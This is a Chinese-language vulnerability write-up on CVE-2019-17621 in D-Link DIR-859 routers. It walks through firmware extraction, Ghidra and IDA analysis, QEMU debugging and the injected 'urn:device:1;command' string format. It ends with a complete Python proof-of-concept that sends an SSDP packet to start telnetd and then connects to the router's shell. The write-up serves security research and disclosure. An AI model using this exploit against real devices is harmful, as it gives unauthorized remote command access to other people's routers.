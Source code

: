 
# CVE-2019–17621: D-Link DIR-859 未授权命令执行漏洞分析


                                阅读量   
                                **403278**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](./img/203538/t01886deb3487c1d36a.jpg)](./img/203538/t01886deb3487c1d36a.jpg)



## 0x01.漏洞概述

1.简介

D-Link DIR-859设备LAN层中出现未经身份验证的命令执行漏洞(CVE-2019-17621)

2.漏洞研究版本

```
型号：DIR-859
固件版本：1.06b01 Beta01，1.05
架构：MIPS 32位
```

3.受影响的D-Link版本

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t018894e9cc272b7f6f.png)



## 0x02.漏洞起因

远程命令执行漏洞发生在cgibin可执行文件中的ssdpcgi_main()函数中，即使这个函数之前已经打过补丁,但是而由于环境变量未正确过滤而造成远程命令执行.



## 0x03.Firmadyne模拟DIR-859

１.使用Firmadyne成功模拟DIR-859

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01bc2da8aa6797c6be.png)



## 0x04.固件提取

1.获取固件

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01aed7908b847f557a.png)

2.提取固件

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01afe1930c870dbfcb.png)

3.grep搜索造成漏洞的cgibin文件

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0159596e5a7f19e2b5.png)



## 0x05.Ghidra二进制分析cgibin

1.查找造成漏洞的函数ssdpcgi_main()

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01062a5fb1f12d4b38.png)

2.分析ssdcgi_main()函数

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ef6081a6f7ef2fb9.png)

首先通过getenv()获取环境变量,经过多个判断后经过urn,device,serivce等进行拼接成新的字符串,最后将新生成的字符串作为lxmldbc_system()的变量进行传递.

我们利用这个漏洞需要满足如下条件:

(1).HTTP_ST中含有urn:这四个字符以满足上面的判断条件

(2).将要执行的命令通过strstr()拼接到device或service上,以满足命令执行条件

(3).将拼接成的字符串传递给lxmldbc_system()

3.造成漏洞真正的原因是lxmldbc_system()函数,函数如下

lxmldbc_system()函数的参考地址:[https://pastebin.com/kqEByBgA](https://pastebin.com/kqEByBgA)

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014e2db9e24d77579f.png)

根据原文,sistema de retorno为system()函数

4.根据lxmldbc_system()写了一个简单的Demo

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01bd1bdc237dc7cece.png)

5.运行Demo,执行系统命令

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c559104366ed1ae9.png)

6.IDA跟进分析ssdpcgi_main

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d67d170403cb4454.png)

当我们控制HTTP_ST环境变量的值时，我们将命令在作为vsnpritf()函数的参数发送之前将它们连接起来，以格式化字符串.而格式化后的字符串保存在`$0`,`$0`会被lxmldbc_system()作为buffer,以执行system()命令。



## 0x06.使用Qemu+IDA动态调试

1.查看可执行程序格式

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0161bda0c6036baa4c.png)

2.复制qemu-mips模拟运行cgibin

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f49cad6c9133da87.png)

```
-0: 要请求的cgi
-E: 传入自定义的环境变量
```

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01dbe454e8e8850c8b.png)

通过Ghidra分析可以看出如果想要跳转到ssdpcgi_main()函数,想要匹配ssdpcgi才可以.

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0185772b6a8fb4eab3.png)

这些就是我们需要进行传输的数据

3.经过上面的操作已经启动qemu-mips-static对cgibin进行模拟,并监听在10000端口

4.IDA进行远程调试

(1).IDA加载cgibin时,选中Maunal load,发生弹窗全部选择确认

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019a6c6adbe041828e.png)

(2).在关键位置下断点

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01db7e02882ffb0a55.png)

(3).IDA加载IP和PORT

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01be9d84b584089356.png)

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t011e95533122d39828.png)

(4).启动调试,运行到断点的位置,在最开始的判断的时候进行的强制更改跳转

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t019ba40032992b9f09.png)

(5).根据$0的地址到内存查找字符

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0193f0f70df527ca05.png)

这里我们也已经找到了传递过来并已经拼接的值

根据漏洞成因可以确定拼接成后的格式

```
s0:/etc/scripts/upnp/M-SEARCH.sh devices 127.0.0.1:13 1 urn:device:1;your command &amp;
s0:/etc/scripts/upnp/M-SEARCH.sh services 127.0.0.1:13 1 urn:service:1;your command&amp;
```

(6).根据lxmldbc_system()的第二个参数可以确定会去执行/etc/scripts/upnp/M-SEARCH.sh,这里我们进行验证拼接命令的字符串是否成功执行

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a8f88314d993c921.png)



## 0x07.编写POC

由于D-Link中本身就内置Telnet,所以直接使用Telent建立稳定的Shell

```
#!/usr/bin/python
import sys
import os
import socket
from time import sleep
# Exploit By Miguel Mendez - @s1kr10s
def config_payload(ip, port):
    header = "M-SEARCH * HTTP/1.1n"
    header += "HOST:"+str(ip)+":"+str(port)+"n"
    header += "ST:urn:device:1;telnetdn"
    header += "MX:2n"
    header += 'MAN:"ssdp:discover"'+"nn"
    return header
def send_conexion(ip, port, payload):
    sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
    sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)
    sock.sendto(payload,(ip, port))
    sock.close()
if __name__== "__main__":
    ip = raw_input("Router IP: ")
    port = 1900
    print("n---= HEADER =---n")
    headers = config_payload(ip, port)
    print("[+] Preparando Header ...")
    print("[+] Enviando payload ...")
    print("[+] Activando servicio telnetd :)") 
    send_conexion(ip, port, headers)
    print("[+] Conectando al servicio ...n")
    sleep(5)
    os.system('telnet ' + str(ip))
```



## 0x08.POC验证

[![](./img/203538/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ea851754c242975d.png)

成功连接telent,并执行系统命令



## 0x09.参考:

```
1.https://medium.com/@s1kr10s/d-link-dir-859-unauthenticated-rce-in-ssdpcgi-http-st-cve-2019-20215-en-2e799acb8a73
2.https://support.dlink.com/ProductInfo.aspx?m=DIR-859
3.https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147
```
